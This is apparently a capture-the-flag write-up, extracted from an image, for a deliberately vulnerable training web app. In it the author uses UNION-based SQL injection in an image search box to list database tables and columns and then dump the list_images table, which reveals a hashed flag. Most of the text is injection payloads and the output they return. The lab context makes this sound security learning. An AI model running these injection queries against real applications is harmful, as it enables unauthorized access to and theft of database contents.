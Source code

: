 So I start running commands to find just one query, I entered 5 (in case it is lucky) in the box and this returns:

ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png\\

The first thing to do is to find out which tables are present and which coloumns. I ran the query:\\

5 UNION SELECT TABLE\_NAME, COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS\\

ID: 5 UNION SELECT TABLE\_NAME, COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS
Title: id
Url : list\_images

ID: 5 UNION SELECT TABLE\_NAME, COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS
Title: url
Url : list\_images

ID: 5 UNION SELECT TABLE\_NAME, COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS
Title: title
Url : list\_images

ID: 5 UNION SELECT TABLE\_NAME, COLUMN\_NAME FROM INFORMATION\_SCHEMA.COLUMNS
Title: comment
Url : list\_images

We have found the list\_ table and the columns therein. We are interested to see the contents now so we query:\\

5 UNION SELECT title, comment FROM list\_images\\

This will return:\\

ID: 5 UNION SELECT title, comment FROM list\_images
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 5 UNION SELECT title, comment FROM list\_images
Title: An image about the NSA !
Url : Nsa

ID: 5 UNION SELECT title, comment FROM list\_images
Title: There is a number..
Url : 42 !

ID: 5 UNION SELECT title, comment FROM list\_images
Title: Google it !
Url : Google

ID: 5 UNION SELECT title, comment FROM list\_images
Title: Yes we can !
Url : Obama

ID: 5 UNION SELECT title, comment FROM list\_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

ID: 5 UNION SELECT title, comment FROM list\_images
Title: Because why not ?
Url : tr00l\\

